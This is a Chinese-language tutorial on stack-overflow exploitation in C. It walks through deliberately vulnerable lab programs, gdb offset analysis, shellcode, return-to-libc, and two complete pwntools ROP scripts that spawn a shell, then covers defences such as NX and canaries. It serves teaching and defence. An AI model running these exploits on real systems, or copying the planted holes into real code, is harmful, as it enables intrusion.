# C语言安全实例分析

## 栈溢出

### 修改变量的值

针对如下程序,目标是利用 gets(buffer) 使 buffer 越界修改变量 modified 的值

```C
// gcc -c stack0 stack0.c -fno-stack-protector
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if (modified != 0)
    {
        printf("you have change the 'modified' variable\n");
    }
    else
    {
        printf("Try again?\n");
    }
}
```

* 原理分析

程序的栈分布


利用 buffer 的溢出,修改 modified 的值

* 攻击过程

main 函数对应的汇编语言

通过汇编语言分析得到 $rbp-0x54 对应 buffer 的首地址, $rbp-0x4 对应**modified**的地址

可以猜测要想将**buffer**溢出修改**modified**,则字符串的长度应该在**77-80**



在mov eax,DWORD PTR [rbp-0x4]处设置断点

输入**76**个**A**,四个其他字母



在断点处查看栈状态

发现**modified**四个字节被**BCDE**占据

成功修改



成功运行



### 重定向程序执行

针对如下程序,目标是利用 buffer 溢出修改 fp 函数指针的值,使其执行 winner 函数

```C
// gcc -o stack3 stack3.c -fno-stack-protector
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void winner()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if (fp)
    {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
```

该程序 main 函数对应的汇编代码为



在 cmp QWORD PTR [rbp-0x8],0x0 设置断点

输入一个长度足够的随机字符串,计算 rbp-0x8 相对于 buffer 的偏移量为 72 个字节







查看 winner 函数的地址



构造输出脚本



gdb 中验证成功



实际情况下验证成功



### 修改函数的返回地址 x86

针对如下代码,利用 gets(buffer) 使得 buffer 的缓冲区溢出修改 vuln() 函数的返回地址,执行 winner() 函数

```C
//gcc -o stack4 -fno-stack-protector -m32 main.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void winner()
{
    printf("code flow successfully changed\n");
}

void vuln()
{
    char buffer[64];
    gets(buffer);
}

int main(int argc, char **argv)
{
    vuln();
}
```

* 原理分析

vuln() 函数被调用时的栈过程如下



利用 buffer 的溢出覆盖 vuln() 函数的返回地址使得 winner() 执行

* 攻击过程

利用 gdb 对 vuln 函数进行反汇编

通过 lea eax,[ebp - 0x48] 得到 buffer 起始地址距离 ebp 所指的距离是 0x48 bytes



查看 winner 函数的地址是 0x0804843b



构造脚本,输出 0x48 个 A 覆盖 buffer, BCDE 覆盖 ebp, 利用 winner() 函数的地址覆盖 vuln() 函数的返回地址



利用脚本的输出在 gdb 中测试

通过调试发现 old ebp 的值被 BCDE 覆盖

vuln() 函数的返回地址被 0x0804843b 覆盖

并成功执行 winner 函数



在实际环境下测试,成功执行 winner 函数



### ShellCode

每个进程的地址空间分布如下:


堆由低地址向高地址增长,栈由高地址向地址增长.

针对如下程序,利用 buffer 的溢出覆盖 main() 函数的返回地址,使得退出 main() 函数退出时,跳入到 buffer 区域执行 shellcode 代码

```c
// gcc -m64 bof.c -o bof -z execstack -fno-stack-protector
// sysctl -w kernel.randomize_va_space=0
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
    char buffer[256];
    if (argc != 2)
    {
        exit(0);
    }

    printf("%p\n", buffer);
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
    return 0;
}
```

* 原理分析

栈的分布情况如下:



由高地址到低地址依次是调用函数的栈,入栈的参数,返回地址,栈基址,局部变量.

shellcode 攻击的原理就是向 Buffer 中写入超过 256 字节的数据,覆盖返回地址 Return ,将 Return 指向 Buffer 开始处而不是 Calling function ,若将 shellcode 写入 Buffer 中,便可进行执行.

* 攻击过程

编译代码,关闭栈保护机制,关闭栈不可执行机制

```c
gcc -m64 bof.c -o bof -z execstack -fno-stack-protector
```

关闭 linux 的随机地址

```c
sysctl -w kernel.randomize_va_space=0
```

获取需覆盖 Buffer 和 Base Pointer 的长度

GDB 打开 bof 程序



运行输入 300 个 A



查看寄存器状态,得知 rsp 的位置为 0x7fffffffda88



Buffer 起始处,得知起始位置为 0x7fffffffd980



计算长度



验证可以控制 RIP 返回 Buffer 起始处

利用 B 填充 RIP ,得知 B 可以填充 0x0000424242424242



查看 Buffer 起始地址,得到 Buffer 起始地址 0x7fffffffd9a0



利用 Buffer 起始地址填充,验证可行



gdb 中利用 Shellcode 攻击

Shellcode 长度 27 字节





非 Debug 环境下执行

在关闭了 linux 随机地址之后,便可执行


### 修改函数的返回地址 x86_64

```C
// gcc victim.c -o victim -fno-stack-protector
// objdump -d victim -M intel > victim.asm
#include <stdio.h>
#include <unistd.h>

void borrowed()
{
    execl("/bin/sh", NULL, NULL);
}

int main()
{
    char name[64];
    printf("%p\n", name);
    printf("What's your name?");
    scanf("%s", name);
    printf("Hello, %s!\n", name);
    return 0;
}
```

* 原理分析

main() 函数的部分栈状态如下



利用 buffer 的溢出覆盖 main() 函数的返回值

跳转到 borrowed 函数执行

从而获取 shell

* 攻击过程

利用 gdb 反汇编查看 main()

通过 lea rax, [rbp - 0x40] 得到 buffer 的起始地址距离 old rbp 是 0x40 bytes

而 old rbp 占由 8 bytes



查看其对应的汇编语言,可查到 borrowed 函数对应的地址



因此可使用如下方法



攻击成功



### Return to Libc

针对如下代码,目标是利用 buffer 缓冲区的溢出和 libc.so 库中的 system 和 bin/sh 进入 shell

```C
// gcc -o rtl32 main.c -fno-stack-protector -m32
// echo 0 > /proc/sys/kernel/randomize_va_space
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    //offset 76
    char buffer[64];
    read(STDIN_FILENO, buffer, 128);
}

int main(int argc, char **argv)
{
    vuln();
    write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

* 攻击原理

利用 system 的地址覆盖函数 vuln 的返回地址,然后随意增加一个返回值,再增加一个 bin/sh 的地址作为 system 的参数


跳转到 system 时会将 bin/sh 当做入栈的参数

* 攻击过程

首先计算 buffer ebp 区域的总长度







gdb 获取 libc 中的 system 地址和 bin/sh 地址

system 的地址是 0xf7e3d940

/bin/sh 的地址是 0xf7f5c02b





构造脚本



成功运行 shell



### Return Oriented Programming x86

在 ALSR 打开的情况下

针对如下代码,利用 write() plt 表中的 got 地址,获取 write() 函数加载后的绝对地址

再利用 system() 函数与 write() 函数之间相对偏移量计算出 system() 函数的绝对地址

再利用 /bin/sh 与 write() 函数之间相对偏移量计算出 /bin/sh 的绝对地址

利用 buffer 的溢出使得 vuln() 跳转到 write() 输出,输出 write() 函数的绝对地址

再跳转回 vuln() 函数

利用 buffer 的溢出使得 vuln() 跳转到 system(/bin/sh)

```C
// gcc -o rop32 main.c -fno-stack-protector -m32
// echo 2 > /proc/sys/kernel/randomize_va_space
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vuln()
{
    char buffer[64];
    read(STDIN_FILENO, buffer, 128);
}

int main(int argc, char **argv)
{
    vuln();
    write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

* 攻击原理

流程如下



利用 buffer 的溢出,使得 vuln() 函数跳转到 write ,write 输出write got 表项的值到 stdout ,输出之后重新跳回到 vuln



跳回 vuln 之后,重新利用 buffer 的溢出,使得 vuln 跳转到 system(/bin/sh)



* 攻击过程

利用 gdb 查看 vuln() 函数的反汇编代码

通过 lea eax,[ebp - 0x48]

得知 buffer 起始地址相对于 old ebp 的距离是 0x48 bytes

old ebp 占用 4 bytes



利用 lld 查看程序加载的 libc 库的版本

/lib32/libc.so.6



根据以上流程,构造如下脚本

```PYTHON
#!/usr/bin/python2.7

from pwn import *

libc = ELF("/lib32/libc.so.6")
elf = ELF("./rop32")

# p = remote(ip, port)
p = process("./rop32")

plt_write = elf.symbols["write"]
print 'plt_write= ' + hex(plt_write)
got_write = elf.got["write"]
print 'got_write= ' + hex(got_write)
vulnfun_addr = 0x0804843b
print 'vulnfun_addr= ' + hex(vulnfun_addr)

payload1 = 'A' * 76 + p32(plt_write) + p32(vulnfun_addr) + p32(1) + p32(
    got_write) + p32(4)

print "\n### sending payload1 ...###"
p.send(payload1)

print "\n### receving write() addr ...###"
write_addr = u32(p.recv(4))
print 'write_addr= ' + hex(write_addr)

print "\n### calculating system() addr and \"/bin/sh\" addr ...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print "system_addr= " + hex(system_addr)
binsh_addr = write_addr - (
    libc.symbols['write'] - next(libc.search('/bin/sh')))
print "binsh_addr= " + hex(binsh_addr)

payload2 = 'A' * 76 + p32(system_addr) + p32(vulnfun_addr) + p32(binsh_addr)

print "\n### sending paylaod2 ...###"
p.send(payload2)

p.interactive()
```

攻击效果



### x86_64 与 x64 的区别

* 64位整数的存储与获取

```C
volatile uint64_t d = 0x1234;
```

x86 汇编对应

```x86
mov    DWORD PTR [ebp-0x88],0x1234
mov    DWORD PTR [ebp-0x84],0x0
```

x86_64 汇编对应

```x86
QWORD PTR [rbp-0xa0],0x1234
```

32 情况下操作 64 位数需要两次

64 情况下操作 64 位数需要一次

* 函数实参的传递

针对如下函数

```C
// function with a lot of parameters
int fun5(int p1, int p2, int p3, int p4, int p5, int p6, int p7, int p8, int p9, int p10, int p11, int p12, int p13, int p14, int p15, int p16)
    return p1+p2+p3+p4+p5+p6+p7+p8+p9+p10+p11+p12+p13+p14+p15+p16;
}
```

x86 调用时参数传入方式



x86_64 调用时参数传入方式



明显可以看到 x86_64 在寄存器够用的情况下,会首先利用寄存器传递参数,然后再让剩余参数入栈

而 x86 只用栈传递参数

### Return-oriented programming x86_64

x86_64 与 x86 的区别是,在函数的参数较少时,利用寄存器传递参数

因此我们在 x86_64 构造攻击链的时候,应该利用 pop ret 这样的结构将值传递到寄存器 edi 中,进行参数的传递

```C
// gcc -fno-stack-protector level4.c -o level4 -ldl
// sysctl -w kernel.randomize_va_space=2
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    systemaddr();
    write(1, "Hello, World\n", 13);
    vulnerable_function();
}
```

* 攻击原理

利用 /bin/sh 与 system 之间的相对距离,得到 system 的绝对地址之后,计算 /bin/sh 的地址

利用 pop ret 与 system 之间的相对距离,得到 system 的绝对地址之后,
计算 pop ret 参数传递链路的地址

利用 buffer 的溢出跳转到 system(/bin/sh) 执行



弹出 pop ret 的地址之后,开始执行,这时栈顶元素是 /bin/sh 的地址

将 /bin/sh 的地址弹给 rdi 寄存器

然后 ret ,这时认为 system 是返回地址

rdi 用于传递参数


* 攻击过程

对 vuln() 函数进行反汇编

得到 buffer 的起始地址距离 old rbp 的距离是 0x80 字节

并且 old rbp 的字节是 8 字节


查看程序加载 libc 库的地址和版本

/lib/x86_64-linux-gnu/libc.so.6


搜索 pop ret 地址

得到 pop rdi ; ret 的地址是 0x0000000000021102


```PYTHON
#!/usr/bin/env python
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)


binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000021102 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)


pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive()
```

攻击效果

获得 shell 的控制


### ROP 防御技术

* ROP 指令流的特点

ROP 执行流会包含了很多 return 指令,而且之间只间隔了几条其他指令

ROP 利用 return 指令来 unwind 堆栈,却没有对应的 call 指令

针对以上特点,提出检测和防御技术

* ROP 检测和防御技术

可以检测程序执行中是否有频繁 return 的指令流,作为报警的依据

可以通过 call 和 return 指令来查找正常程序中通常都存在的后进先出栈里维护的不变量,判断其是否异常

还有更极端的,在编译器层面重写二进制文件,消除里面的 return 指令

### 栈溢出的防护手段

#### 栈不可执行机制

NO-EXEC

```C
-z execstack ;栈可执行
-z noexecstack ; 栈不可执行
```

NX 的基本原理是

通过地址范围

将数据所在内存页标识为不可执行,当程序溢出成功转入 shellcode 时,程序会尝试在数据页面上执行指令,此时 CPU 就会抛出异常,而不是去执行恶意指令

#### 栈保护机制

CANARY

编译时若打开栈保护开关，则会在函数的进入和返回的地方增加一些检测指令

